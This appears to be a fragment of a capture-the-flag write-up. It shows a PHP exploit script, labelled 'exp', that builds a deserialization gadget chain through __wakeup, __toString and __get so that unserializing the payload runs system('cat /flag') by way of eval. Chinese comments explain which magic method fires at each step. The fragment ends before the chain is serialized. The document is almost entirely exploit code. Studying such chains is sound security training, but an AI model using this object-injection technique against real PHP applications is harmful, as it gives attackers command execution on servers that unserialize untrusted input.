  

exp

```php
<?php
class re{
    public $chu0;
    public function __toString(){  // 当对象被当做字符串时自动调用（找echo $this->a这种、strtolower()等）
        if(!isset($this->chu0)){
            return "I can not believes!";
        }
        $this->chu0->$nononono;  // 2 pwn
    }
}
 
class web {
    public $kw;
    public $dt;
 
    public function __wakeup() {  // wakeup 在反序列化时会自己触发的，也就是链头了
        echo "lalalla".$this->kw;  // 3 re
    }
 
    public function __destruct() {
        echo "ALL Done!";
    }
}
 
class pwn {
    public $dusk;
    public $over;
 
    public function __get($name) {   // 调用类中不存在变量时触发（找有连续箭头的 this->a->b）
        if($this->dusk != "gods"){  
            echo "什么，你竟敢不认可?";
        }
        $this->over->getflag();  // 1 Misc
    }
}
 
class Misc {
    public $nothing;
    public $flag;
 
    public function getflag() {
        eval("system('cat /flag');");
    }
}
 
class Crypto {
    public function __wakeup() {
        echo "happy happy happy!";
    }
 
    public function getflag() {
        echo "you are over!";
    }
}
 
$m = new Misc();
$p = new pwn();
$p->over = $m;
$r = new re();
$r->chu0 = $p;
```